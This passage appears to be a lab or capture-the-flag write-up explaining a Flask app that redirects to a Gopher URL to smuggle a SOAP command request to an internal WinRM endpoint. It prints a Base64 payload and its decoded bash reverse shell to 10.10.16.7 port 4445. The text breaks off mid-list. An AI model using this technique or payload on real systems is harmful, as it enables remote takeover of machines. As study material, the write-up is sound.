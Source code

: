 
### Key Components

1. **Flask Framework**:
    
    - The Flask framework is used to create the web server and handle routing.
2. **Global Variables**:
    
    - `DATA`: Represents a SOAP (Simple Object Access Protocol) request body with placeholders for a command to be executed.
    - `REQUEST`: Represents an HTTP POST request template with placeholders for the content length and the request body.
3. **Routes**:
    
    - The Flask application defines a single route (`/`) that dynamically generates and redirects requests to a Gopher URL.

---

### Code Details

#### **SOAP Request Template (`DATA`)**

- The SOAP envelope is used to wrap the command that will be executed on the target system:
    - `<a:To>`: Specifies the target system's endpoint (`http://192.168.1.1:5986/wsman/`).
    - `<p:command>`: Contains the command to execute. This placeholder (`{}`) will be dynamically replaced with a Base64-encoded payload.

#### **HTTP POST Request Template (`REQUEST`)**

- This template formats a complete HTTP POST request:
    - `Content-Length`: Specifies the length of the request body (including the SOAP envelope).
    - `{body}`: Placeholder for the SOAP envelope content.

#### **Flask Route (`root()`)**

1. **Command to Execute (`cmd`)**:
    
    - The command encoded in Base64 (`YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43LzQ0NDUgMD4mMSIK`) decodes to:
        
        ```bash
        bash -c "bash -i >& /dev/tcp/10.10.16.7/4445 0>&1"
        ```
        
        This establishes a reverse shell connection to `10.10.16.7` on port `4445`.
2. **SOAP Envelope Formatting**:
    
    - The placeholder `{}` in `DATA` is replaced with the Base64-decoded payload, crafting the full SOAP request body.
3. **HTTP Request Formatting**:
    
    - The `REQUEST` template is filled with:
        - `length`: Length of the formatted SOAP body plus two extra bytes for CRLF (`\r\n`).
        - `body`: The formatted SOAP envelope from the previous step.
4. **URL Encoding**:
    